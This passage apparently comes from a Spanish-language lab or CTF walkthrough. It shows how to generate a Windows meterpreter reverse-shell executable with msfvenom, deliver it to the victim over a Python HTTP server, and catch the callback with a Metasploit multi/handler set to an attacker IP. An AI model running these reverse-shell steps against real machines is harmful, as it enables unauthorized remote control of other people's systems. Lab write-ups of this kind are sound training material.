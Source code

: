 Una vez que iniciemos sesion, estaremos dentro de la version escritorio de `Windows` con dicho usuario, por lo que vamos a generarnos una `reverse shell` con `msfvenom` ya que tenemos las credenciales de un usuario.

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Una vez generado el binario de la `shell` vamos a pasarnoslo a la maquina victima abriendo un servidor de `python3`:

```shell
python3 -m http.server 8000
```

En la maquina victima abriremos el navegador y buscaremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Desde aqui nos descargamos la `shell` que hemos generado, una vez echo esto vamos a ponernos a la escucha desde `metasploit`.

```shell
msfconsole -q
```

Utilizaremos la siguiente escucha:

```shell
use multi/handler
```

Ahora lo vamos a configurar de la siguiente forma:

```shell
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT <PORT>
run
```

Ahora desde la maquina victima ejecutamos el archivo `shell.exe` y si volvemos a donde tenemos la escucha veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
